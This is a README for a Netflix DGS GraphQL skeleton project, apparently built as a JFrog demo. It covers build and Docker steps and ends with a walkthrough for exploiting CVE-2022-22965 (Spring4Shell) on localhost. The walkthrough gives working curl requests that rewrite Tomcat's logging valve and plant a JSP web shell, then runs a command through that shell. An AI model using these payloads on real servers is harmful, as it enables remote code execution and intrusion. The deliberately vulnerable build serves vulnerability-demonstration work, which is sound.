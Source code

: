 # DGS (from Netflix) skeleton project

[![github-dgs-build](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml/badge.svg)](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml)

## Introduction

Run the project locally (outside docker): 
Set SHOWS_JSONDB_FOLDER env var (example : /Path/to/dgs-skeleton/src/main/resources/data)
then run

```
mvn spring-boot:run
```

## Build & run
Be sure that docker daemon is running.

Build as self executable JAR

```
export PKG_VERSION=1.2.3
export PKG_TYPE=jar
jf mvn -Drevision=$PKG_VERSION -Dmaven.test.skip=true clean package
docker build --build-arg JAR_FILE_NAME=dgs-skeleton-$PKG_VERSION.$PKG_TYPE -t dgs-graphql:latest .
docker run -p 8080:8080 -v ./src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql:latest
```

Then browse to http://localhost:8080/graphiql

Build WAR for Tomcat
```
export PKG_VERSION=1.2.3
export PKG_TYPE=war
export MVN_VIRTUAL_REPO=dro-backend-maven-virtual
jf mvnc --repo-resolve-releases=$MVN_VIRTUAL_REPO --repo-deploy-releases=$MVN_VIRTUAL_REPO --repo-resolve-snapshots=$MVN_VIRTUAL_REPO  --repo-deploy-snapshots=$MVN_VIRTUAL_REPO
jf mvn -Drevision=$PKG_VERSION -Dmaven.test.skip=true -f pom-war.xml clean package deploy
cp $PWD/target/dgs-skeleton-webapp-$PKG_VERSION.$PKG_TYPE ./target/jfrog-demo.war
docker build --build-arg WAR_FILE_NAME=jfrog-demo.war -f DockerfileTomcat -t dgs-graphql-tomcat:latest .
docker run -p 8080:8080 -v $PWD/src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql-tomcat:latest
```

Then browse to http://localhost:8080/jfrog-demo/graphiql

If this version is containing the vulnerabilty CVE-2022-22965, you can then exploit it as follow : 

First run
```
curl -H "Accept: text/html;" "http://localhost:8080/jfrog-demo/vulnerable-path?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%63%6f%64%65%7d%69&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```
to changes Tomcat config valve.

Then create the web shell 
```
curl -H "Accept: text/html;" -H "code: <% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(String.valueOf(1337))).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1) { out.println(new String(b)); } %>" "http://localhost:8080/jfrog-demo/vulnerable-path"
```
And run commands using
```
http://localhost:8080/shell.jsp?1337=ls%20-al
```

### References
- https://github.com/itsecurityco/CVE-2022-22965
- https://netflix.github.io/dgs/

